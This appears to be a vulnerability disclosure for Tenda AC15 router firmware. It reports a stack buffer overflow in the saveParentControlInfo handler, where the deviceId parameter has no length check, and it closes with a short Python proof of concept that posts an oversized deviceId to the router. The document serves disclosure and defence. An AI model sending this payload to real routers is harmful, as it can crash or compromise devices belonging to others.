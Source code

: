 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316180234990](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180234990.png)

it reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240316180319269](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180319269.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240305112602204](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305112602204.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171654837.png)
